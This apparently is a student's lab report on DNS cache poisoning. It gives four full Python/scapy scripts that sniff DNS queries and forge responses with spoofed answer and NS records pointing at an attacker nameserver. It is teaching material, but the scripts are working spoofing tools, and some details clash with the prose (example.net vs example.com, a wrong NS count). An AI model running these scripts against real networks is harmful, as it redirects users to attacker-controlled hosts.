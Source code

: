= DNS Cache Poisoning
Harsh Gaurang Kapadia <harshk@bu.edu>
:toc:					left
:favicon:				../../../../../favicon.ico
:imagesdir:				./
:docinfo:				shared
:sectanchors:
:figure-caption!:

NOTE: link:../dns-heartbleed.html[Assignment questions/instructions]

== Setup Test

We get the IP of `ns.attacker32.com` on querying for it, because the local DNS server has its IP address pre-defined in its configuration.

.Get the IP address of `ns.attacker32.com`
image::setup/setup-test-1.png[]

The local DNS server goes to the public internet and gets the IP address of `www.example.com`

.Get the IP address of `www.example.com` using the local DNS server
image::setup/setup-test-2.png[]

The client first asks the local DNS server for the A record of `ns.attacker32.com` and then makes the requested DNS query directly to `ns.attacker32.com` at the IP the local DNS server sent.

.Get the IP address of `www.example.com` using the `ns.attacker32.com` DNS server
image::setup/setup-test-3.png[]

== Task 1: Directly Spoofing Response to User

During the attack, the attacker is able to target requests between the client and the DNS server only and has to individually intercept every client's requests. The local DNS server's cache is not poisoned. In fact, the local DNS server has the correct answer, but the attacker responded first, so the DNS server's response was ignored by the client.

.Attacker
image::task-1/dns-1-attacker.png[]

.User receives poisoned response during attack
image::task-1/dns-1-user.png[]

.User receives correct response after attack and local DNS server cache expiry/flush
image::task-1/dns-1-user-correct-query.png[]

Code:

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.net" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns1.example.net")
		NSsec2 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns2.example.net")
		
		# The Additional Section
		Addsec1 = DNSRR(rrname="ns1.example.net", type="A", ttl=259200, rdata="1.2.3.4")
		Addsec2 = DNSRR(rrname="ns2.example.net", type="A",ttl=259200, rdata="5.6.7.8")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2,an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and dst port 53"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----

== Task 2: Directly Spoofing Response to User - Spoofing Answers

Instead of targeting the client and the local DNS server communication, the local DNS server's cache is poisoned, which leads to all clients automatically receiving the wrong response till the poisoned cache survives on the local DNS server.

.Attacker
image::task-2/dns-2-attacker.png[]

.User receives poisoned response during attack
image::task-2/dns-2-user-poisoned.png[]

.Local DNS server's poisoned cache during the attack
image::task-2/dns-2-local-dns-server-poisoned.png[]

.User receives correct response after attack and local DNS server cache expiry/flush
image::task-2/dns-2-user-correct-query.png[]

.Local DNS server's cache after attack and poisoned cache expiry/flush
image::task-2/dns-2-local-dns-server-correct-cache.png[]

Code:

The filter is modified to target the local DNS server's requests to the router (public internet).

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.net" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns1.example.net")
		NSsec2 = DNSRR(rrname="example.net", type="NS",ttl=259200, rdata="ns2.example.net")

		# The Additional Section
		Addsec1 = DNSRR(rrname="ns1.example.net", type="A", ttl=259200, rdata="1.2.3.4")
		Addsec2 = DNSRR(rrname="ns2.example.net", type="A",ttl=259200, rdata="5.6.7.8")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2,an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and src host 10.9.0.53 and src port 33333"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----

== Task 3: Spoofing NS Records

When the user makes the first request to the server, instead of just sending spoofed DNS Answer Sections, the attacker sends a spoofed Authority Section as well, so then it controls the entire `example.com` domain, rather than just `www.example.com` as in link:#_task_1_directly_spoofing_response_to_user[Task 1] and link:#_task_2_directly_spoofing_response_to_user_spoofing_answers[Task 2]. When a request to `mail.example.com` is sent to the local DNS server after an initial `www.example.com` request which poisons the cache, the attacker's Nameserver is asked for the unknown answer to `mail.example.com` instead of the `ns1.example.com`, the actual Nameserver of `example.com`.

.Attacker
image::task-3/dns-3-attacker.png[]

.Attacker Nameserver
image::task-3/dns-3-attacker-ns.png[]

.Initial user request that poisons entire `example.com` domain
image::task-3/dns-3-user-www-poisoned.png[]

.Local DNS server's poisoned cache (Note the spoofed NS record)
image::task-3/dns-3-local-dns-server-poisoned.png[]

.Subsequent user request that makes use of the poisoned `example.com` NS record
image::task-3/dns-3-user-mail-poisoned.png[]

Code:

The NS records for `example.com` have been modified to the attacker controlled Nameserver.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.com" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")
		NSsec2 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and src host 10.9.0.53 and src port 33333"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----

== Task 4: Spoofing NS Records for Another Domain

Even though the attacker sends `google.com` in the attack, the local DNS server does not cache it, as it is only concerned with the `example.com` domain.

.Attacker
image::task-4/dns-4-attacker.png[]

.Initial user request to `www.example.com` that poisons the local DNS server's cache
image::task-4/dns-4-user-example.png[]

.Subsequent user request to `www.google.com` that gives the correct answer
image::task-4/dns-4-user-google.png[]

.Local DNS server's poisoned cache, that includes the `example.com` domain, but not the `google.com` domain
image::task-4/dns-4-local-dns-server.png[]

Code:

The NS record for `google.com` has been added.

[source, python]
----
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
	if (DNS in pkt and "www.example.com" in pkt[DNS].qd.qname.decode("utf-8")):
		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
		
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
		
		# The Answer Section
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type="A",ttl=259200, rdata="10.0.2.5")
		
		# The Authority Section
		NSsec1 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")
		NSsec2 = DNSRR(rrname="example.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")
		NSsec3 = DNSRR(rrname="google.com", type="NS",ttl=259200, rdata="ns.attacker32.com.")

		# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2/NSsec3)

		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = "udp and src host 10.9.0.53 and src port 33333"
pkt = sniff(iface="br-5e48dfe2a4b3", filter=f, prn=spoof_dns)
----
